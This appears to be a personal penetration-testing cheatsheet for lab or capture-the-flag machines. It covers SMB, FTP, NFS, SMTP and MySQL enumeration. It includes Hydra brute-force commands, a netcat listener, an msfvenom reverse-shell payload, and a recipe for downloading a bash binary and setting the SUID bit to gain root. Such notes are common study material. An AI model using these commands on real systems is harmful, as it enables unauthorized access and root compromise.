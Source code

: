 # Cheatsheet

### Common 
* ```wget http://127.0.0.1:8000/file```
* ```python3 -m http.server```
* ```systemctl stop myservice```
* [-h / -help / --help] or man
* https://www.exploit-db.com/exploits/20745
* words `sudo apt install seclists`
https://github.com/security-cheatsheet/metasploit-cheat-sheet 



### Commands 
* SSH with key `ssh -i <key-file> <username>@<ip>`
* SSH with Password `ssh username@IP`
* list all permissions `ls -la fielname`
* 


## Useful location  
  ### .ssh Key 
   * Private key ssh ```/home/user-name/.ssh```
   * This file is the private key ```id_rsa```
   * change the file permission ``` chmod 600 ```
   * `ssh -i <key-file> <username>@<ip> `
  ### Wordlists 
   * /usr/share/wordlists/SecLists/Usernames
   *  if not found install it `sudo apt install seclists`
   *  /usr/share/wordlists/rockyou.txt 
  ### Nmap


# Fast Tool 
## Netcat
* nc -lvp [listening port], `nc -lvp 4444`

## Hydra 
* used to brute force Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB
* hydra -t 4 -l username -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp



# Services  
## SMB
### Enumerating SMB
* enum4linux [options] ip
* use option  ```-a``` all of the above (full basic enumeration)

### SMB Exploit 445, 139
* smbclient //[IP]/[SHARE]
* smbclient //10.10.10.2/sharefilename -U username -p 445

## Telnet 23
### Enumerating Telnet
* nmap
### Exploiting
* telnet [ip] [port]

## FTP 21
### channels 
* a command (sometimes called the control) channel
* a data channel.
### Enumerating FTP
* nmap
### Exploiting
* "ftp [IP]" into the console, and entering "anonymous", and no password when prompted.

## NFS 
### NFS Tools
* `sudo apt install nfs-common`
* by defualt mount,showmount, nfsstat, gssd, idmapd, lockd, statd,
### Enumeration
* nmap
* show all shares `/usr/sbin/showmount -e [IP] `
### Exploiting
* create folder `mkdir /tmp/mount`
* mount folder `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

## SMTP 25
### Enumeration
* nmap
* msfconsole
* auxiliary/scanner/smtp/smtp_enum
### Exploiting
* ` hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV MACHINE_IP ssh` 

## MYSQL 3306
### Install 
* ` sudo apt install default-mysql-client`
### Enumeration
* nmap
### Exploiting
* ` mysql -h [IP] -u [username] -p` 

# Shells 
## Simple Shell msfvenom 

* using telnet 
```
"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

```
* copy and paste the value on telnet session 

### Privilege Escalatation 
### Instalaltion 
* Download bash shell wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash 
## SUID
* SUID: the file or files can be run with the permissions of the file(s) owner/group.
* change bash file to suid bit `chmod +s filename`
* change to excute `chmod +x filename`
* change ower to root `chown root fielname`
* validate (sr-x) permssion `ls -la fielname`
* move the file to target (SSH/ NFS/ FTP )
* run the file with `./fielname -p` on target 
# other Important 
## Start a tcpdump listener

